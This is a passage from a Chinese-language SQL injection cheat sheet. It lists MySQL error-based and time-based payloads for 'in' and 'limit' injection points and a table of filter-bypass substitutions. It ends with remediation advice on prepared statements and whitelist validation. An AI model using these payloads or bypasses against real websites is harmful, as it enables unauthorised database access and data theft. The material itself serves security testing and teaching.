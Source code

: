 #### 2.2.5 in注入

```
if(1=1,115,1)

extractvalue(rand(),version())
updatexml(rand(),version(),0)
(SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a)
```

#### 2.2.5 limit 注入 

```
limit 2,1 procedure analyse((extractvalue(rand(),(select 1234567890))),1);—/**/-   # (5.0.0<mysql<5.6.6) 

limit 2,1 procedure analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5,BENCHMARK(5000000,SHA1(1)),1))))),1);-- -
```

### 2.3 Bypass

| 关键词                    | 替换词                                                       |
| ------------------------- | ------------------------------------------------------------ |
| and、or、xor、<>          | &、\|\|、^、!=                                               |
| 空格                      | %0a 、 %0d 、%20 、/\*\*/ 、 /\*!test\*/、 /\*/\*!test\*/\*/ 、select(id)from(sys_role) |
| information_schema.tables | information_schema . tables、information_schema.(partitions) |
| sleep(5)                  | BENCHMARK(30000000,md5(1))<br/>BENCHMARK(30000000*(ascii(mid(lower(user()),1,1))=98),md5(1)) |
| union select              | 1e12union(select~1,2)                                        |

## 0x03 SQL注入漏洞修复

### 3.1 预编译并绑定变量

​	Web后台系统应默认使用预编译绑定变量的形式创建sql语句，保持查询语句和数据相分离，以从本质上避免SQL注入风险。

### 3.2 白名单过滤

​	对于表名、列名等无法进行预编译的场景，比如外部数据拼接到order by, group by语句中，需通过白名单的形式对数据进行校验，例如判断传入列名是否存在、升降序仅允许输入"ASC"和"DESC"、表明列名仅允许输入字符、数字、下划线等。
